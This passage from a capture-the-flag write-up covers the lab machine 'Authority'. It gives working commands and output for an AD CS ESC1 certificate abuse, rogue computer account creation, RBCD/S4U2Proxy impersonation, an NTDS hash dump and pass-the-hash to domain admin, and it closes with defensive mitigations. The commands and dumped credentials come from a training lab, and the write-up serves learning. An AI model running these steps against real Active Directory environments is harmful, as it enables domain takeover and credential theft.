[*] Retrieving CA configuration for 'AUTHORITY-CA' via RRP
[*] Successfully retrieved CA configuration for 'AUTHORITY-CA'
[*] Saving text output to '20260715072205_Certipy.txt'
```

The `CorpVPN` template stands out as vulnerable:

```
Template Name                       : CorpVPN
Display Name                        : Corp VPN
Certificate Authorities             : AUTHORITY-CA
Enabled                             : True
Client Authentication               : True
Enrollee Supplies Subject           : True  ← VULNERABLE!
[+] User Enrollable Principals      : AUTHORITY.HTB\Domain Computers
[!] Vulnerabilities
      ESC1                              : Enrollee supplies subject and template allows client authentication.
```

**ESC1** — the template allows `Domain Computers` to enroll and lets the requester supply any Subject Alternative Name, meaning a certificate can be requested for any user, including the Administrator.

**Step 1 — Add a computer account I control** (the default `MachineAccountQuota` of 10 permits this for any authenticated user):
```shell
hyena@hyena$ impacket-addcomputer 'authority.htb/svc_ldap:lDaP_1n_th3_cle4r!' -method LDAPS -computer-name 'EVIL01' -computer-pass 'Str0ng3st_P@ssw0rd!' -dc-ip 10.129.229.56

Impacket v0.13.1 - Copyright Fortra, LLC and its affiliated companies 
[*] Successfully added machine account EVIL01$ with password Str0ng3st_P@ssw0rd!.
```

**Step 2 — Request a certificate from `CorpVPN`, supplying the Administrator's UPN as the subject:**
```shell
hyena@hyena$ certipy req -username 'EVIL01$' -password 'Str0ng3st_P@ssw0rd!' -ca AUTHORITY-CA -dc-ip 10.129.229.56 -target 10.129.229.56 -template CorpVPN -upn 'administrator@authority.htb' -dns authority.htb

[*] Requesting certificate via RPC
[*] Request ID is 3
[*] Successfully requested certificate
[*] Got certificate with multiple identifications
    UPN: 'administrator@authority.htb'
    DNS Host Name: 'authority.htb'
[*] Saving certificate and private key to 'administrator_authority.pfx'
```

---

## Privilege Escalation via RBCD & S4U2Proxy

Possessing a certificate for the Administrator is not, on its own, enough to authenticate to the Domain Controller — I still need a delegation trust that lets `EVIL01$` request tickets on the Administrator's behalf.

**Step 1 — Split the certificate into a PEM key/cert pair:**
```shell
hyena@hyena$ git clone https://github.com/AlmondOffSec/PassTheCert.git
hyena@hyena$ cd PassTheCert
hyena@hyena$ cp ../administrator_authority.pfx .

hyena@hyena$ openssl pkcs12 -in administrator_authority.pfx -nocerts -out administrator.key
Enter Import Password: (press Enter)
Enter PEM pass phrase: 1234

hyena@hyena$ openssl pkcs12 -in administrator_authority.pfx -clcerts -nokeys -out administrator.crt
Enter Import Password: (press Enter)
```

**Step 2 — Authenticate with the certificate and configure RBCD from `EVIL01$` onto the Domain Controller:**
```shell
hyena@hyena$ python3 ./Python/passthecert.py -dc-ip 10.129.229.56 -crt administrator.crt -key administrator.key -domain authority.htb -port 636 -action write_rbcd -delegate-to 'AUTHORITY$' -delegate-from 'EVIL01$'

Impacket v0.13.1 - Copyright Fortra, LLC and its affiliated companies 
Enter PEM pass phrase: 1234
[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] EVIL01$ can now impersonate users on AUTHORITY$ via S4U2Proxy
```

**Step 3 — Request a Kerberos service ticket impersonating the Administrator:**
```shell
hyena@hyena$ impacket-getST -spn 'cifs/AUTHORITY.authority.htb' -impersonate Administrator 'authority.htb/EVIL01$:Str0ng3st_P@ssw0rd!'

[*] Getting TGT for user
[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@cifs_AUTHORITY.authority.htb@AUTHORITY.HTB.ccache
```

**Step 4 — Dump domain hashes using the impersonated ticket:**
```shell
hyena@hyena$ export KRB5CCNAME=Administrator@cifs_AUTHORITY.authority.htb@AUTHORITY.HTB.ccache

hyena@hyena$ impacket-secretsdump -k -no-pass authority.htb/Administrator@authority.authority.htb -just-dc-ntlm

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:6961f422924da90a6928197429eea4ed:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:bd6bd7fcab60ba569e3ed57c7c322908:::
svc_ldap:1601:aad3b435b51404eeaad3b435b51404ee:6839f4ed6c7e142fed7988a6c5d0c5f1:::
AUTHORITY$:1000:aad3b435b51404eeaad3b435b51404ee:608f703a31789ced7e4743cd5abd02d3:::
EVIL01$:12101:aad3b435b51404eeaad3b435b51404ee:d37620b2b55c243fe671fda7d527050b:::
[*] Cleaning up... 
```



I authenticate as Administrator via Pass-the-Hash:

```shell
hyena@hyena$ evil-winrm -i authority.htb -u 'Administrator' -H '6961f422924da90a6928197429eea4ed'

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
authority\administrator

*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
c4e3f19dc49da9002e74c832d4b188ac
```

Full domain compromise achieved.

---

## Final Results

| Flag | Status |
|:--|:--|
| **User Flag** (svc_ldap) | ✅ Captured |
| **Root Flag** (Administrator) | ✅ Captured |


```
Nmap → Anonymous SMB → Development Share → Ansible Vault
   → Hashcat → Vault Decryption → svc_pwm:pWm_@dm!N_!23
   → PWM Configuration Manager → Fake LDAP Server → svc_ldap Cleartext Credentials
   → WinRM Foothold → user.txt
   → Certipy → ESC1 (CorpVPN template)
   → Rogue Computer Account (EVIL01$) → Certificate for Administrator
   → RBCD (EVIL01$ → AUTHORITY$) → S4U2Proxy → Administrator Ticket
   → NTDS Hash Dump → Pass-the-Hash → Domain Administrator
```

---

## Mitigations & Security Recommendations

1. **Restrict Anonymous SMB Access**: Disable null sessions and RID brute forcing; require authentication for all share enumeration.
2. **Secure Ansible Vault Files**: Use strong, unique vault passwords and never store vault-protected playbooks on shares reachable by low-privileged or anonymous users.
3. **Lock Down PWM Configuration Mode**: Require authentication for the configuration manager and disable configuration mode entirely once initial setup is complete.
4. **Validate LDAP/LDAPS Endpoints Server-Side**: Prevent an application like PWM from being redirected to an attacker-controlled LDAP server, and enforce certificate validation so credentials are never sent to an untrusted host.
5. **Fix ESC1 Templates**: Remove "Enrollee Supplies Subject" from any template that also allows Client Authentication, or restrict enrollment rights away from `Domain Computers`/broad principals.
6. **Reduce `MachineAccountQuota`**: Set it to `0` for non-administrative users so arbitrary computer accounts cannot be created.
7. **Audit Delegation Settings**: Regularly review and remove unnecessary Resource-Based Constrained Delegation entries, and alert on writes to `msDS-AllowedToActOnBehalfOfOtherIdentity`.
8. **Enforce Strong Password Policy**: Eliminate weak, guessable passwords such as `password` for any domain-connected service account.
